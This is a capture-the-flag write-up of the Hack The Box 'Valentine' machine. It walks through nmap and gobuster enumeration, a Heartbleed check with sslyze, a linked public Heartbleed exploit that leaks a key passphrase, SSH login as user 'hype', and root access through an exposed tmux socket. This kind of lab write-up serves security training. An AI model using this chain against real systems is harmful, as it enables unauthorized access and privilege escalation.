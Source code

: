 ![image](https://github.com/n16hth4wk07/n16hth4wk07.github.io/assets/87468669/f3996245-00f0-43b2-abe0-89a507113230)

first enumeartion with nmap

```
# Nmap 7.93 scan initiated Sun Jun  4 04:11:57 2023 as: nmap -sC -sV -T4 -oN normal.txt -p 22,80,443 -Pn 10.10.10.79
Nmap scan report for 10.10.10.79
Host is up (0.14s latency).

PORT    STATE SERVICE  VERSION
22/tcp  open  ssh      OpenSSH 5.9p1 Debian 5ubuntu1.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   1024 964c51423cba2249204d3eec90ccfd0e (DSA)
|   2048 46bf1fcc924f1da042b3d216a8583133 (RSA)
|_  256 e62b2519cb7e54cb0ab9ac1698c67da9 (ECDSA)
80/tcp  open  http     Apache httpd 2.2.22 ((Ubuntu))
|_http-title: Site doesn't have a title (text/html).
|_http-server-header: Apache/2.2.22 (Ubuntu)
443/tcp open  ssl/http Apache httpd 2.2.22 ((Ubuntu))
|_http-server-header: Apache/2.2.22 (Ubuntu)
|_ssl-date: 2023-06-04T03:12:21+00:00; 0s from scanner time.
|_http-title: Site doesn't have a title (text/html).
| ssl-cert: Subject: commonName=valentine.htb/organizationName=valentine.htb/stateOrProvinceName=FL/countryName=US
| Not valid before: 2018-02-06T00:45:25
|_Not valid after:  2019-02-06T00:45:25
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sun Jun  4 04:12:22 2023 -- 1 IP address (1 host up) scanned in 25.08 seconds
```

![image](https://github.com/n16hth4wk07/n16hth4wk07.github.io/assets/87468669/5b6c06c6-585a-491c-8dad-701d124ae959)

noticed a web server running, opening on browser, we got a page with a pic of a lady screaming or happy we don't no 🤷‍♂️. let's fuzz

```
┌──(n16hth4wk👽n16hth4wk-sec)-[~/Documents/HTB/Valentine]
└─$ gobuster dir -u http://10.10.10.79/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -k -x php,txt 2>/dev/null
===============================================================
Gobuster v3.5
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.10.79/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.5
[+] Extensions:              php,txt
[+] Timeout:                 10s
===============================================================
2023/06/04 04:18:01 Starting gobuster in directory enumeration mode
===============================================================
/index                (Status: 200) [Size: 38]
/index.php            (Status: 200) [Size: 38]
/dev                  (Status: 301) [Size: 308] [--> http://10.10.10.79/dev/]
/encode               (Status: 200) [Size: 554]
/encode.php           (Status: 200) [Size: 554]
/decode               (Status: 200) [Size: 552]
/decode.php           (Status: 200) [Size: 552]
/omg                  (Status: 200) [Size: 153356]
/server-status        (Status: 403) [Size: 292]

===============================================================
2023/06/04 07:12:13 Finished
===============================================================
```

![image](https://github.com/n16hth4wk07/n16hth4wk07.github.io/assets/87468669/58f1211f-e463-4161-8bae-5360a6bbc93e)

navigativing to the `/dev` dir, got to see 2 files. 

![image](https://github.com/n16hth4wk07/n16hth4wk07.github.io/assets/87468669/ae171c38-93d2-453b-98a2-1c440fb01065)

checking out the first file, we can see it is an encoding. let's decode this text. looks like an hex encoding.

![image](https://github.com/n16hth4wk07/n16hth4wk07.github.io/assets/87468669/7b9ff2e1-b05a-4ed3-a0a2-18a76afcb749)

cool we can see it is an `id_rsa` key. let's download the result.

```
┌──(n16hth4wk👽n16hth4wk-sec)-[~/Documents/HTB/Valentine]
└─$ sslyze --heartbleed 10.10.10.79

 CHECKING CONNECTIVITY TO SERVER(S)
 ----------------------------------

   10.10.10.79:443           => 10.10.10.79 


 SCAN RESULTS FOR 10.10.10.79:443 - 10.10.10.79
 ----------------------------------------------

 * OpenSSL Heartbleed:
                                          VULNERABLE - Server is vulnerable to Heartbleed

 SCANS COMPLETED IN 1.456028 S
 -----------------------------

 COMPLIANCE AGAINST MOZILLA TLS CONFIGURATION
 --------------------------------------------

    Disabled; use --mozilla_config={old, intermediate, modern}.
```
next scan the IP for heartbleed vuln and bull's eye the site is vuln to heart bleed. let's exploit this vuln

![image](https://github.com/n16hth4wk07/n16hth4wk07.github.io/assets/87468669/0ad28923-6c7b-4947-84fe-3ecad8bd3f9a)

found an exploit on github... [exploit](https://gist.githubusercontent.com/eelsivart/10174134/raw/8aea10b2f0f6842ccff97ee921a836cf05cd7530/heartbleed.py).

![image](https://github.com/n16hth4wk07/n16hth4wk07.github.io/assets/87468669/e16c5753-3e03-40f9-ab21-ecb332804daa)

ran the exploit, got to see a text `$text=aGVhcnRibGVlZGJlbGlldmV0aGVoeXBlCg==`, looks like a base64 encoding. decoded to `heartbleedbelievethehype`. which looks lik a potential password. let's try login ssh using what we have. `hype`, `id_rsa`,`heartbleedbelievethehype`.

```
┌──(n16hth4wk👽n16hth4wk-sec)-[~/Documents/HTB/Valentine]
└─$ ssh -o PubkeyAcceptedKeyTypes=ssh-rsa -i id_rsa hype@valentine.htb 
Enter passphrase for key 'id_rsa': 
Welcome to Ubuntu 12.04 LTS (GNU/Linux 3.2.0-23-generic x86_64)

 * Documentation:  https://help.ubuntu.com/

New release '14.04.5 LTS' available.
Run 'do-release-upgrade' to upgrade to it.

Last login: Fri Feb 16 14:50:29 2018 from 10.10.14.3
hype@Valentine:~$ id
uid=1000(hype) gid=1000(hype) groups=1000(hype),24(cdrom),30(dip),46(plugdev),124(sambashare)
hype@Valentine:~$ 
```
bingo we are in. let's escalate privs 


## Privilege Escalation 

```
hype@Valentine:~$ cat .bash_history 

exit
exot
exit
ls -la
cd /
ls -la
cd .devs
ls -la
tmux -L dev_sess 
tmux a -t dev_sess 
tmux --help
tmux -S /.devs/dev_sess 
exit
hype@Valentine:~$ tmux -S /.devs/dev_sess
```
playing around, read the `.bash_history` file. and we can see a tmux session `/.devs/dev_sess`.

![image](https://github.com/n16hth4wk07/n16hth4wk07.github.io/assets/87468669/be14e0d4-c620-4612-92cf-b18a0fa60967)

opening the tmux session, got us into a root shell. and we are through 😜 had fun yeah?

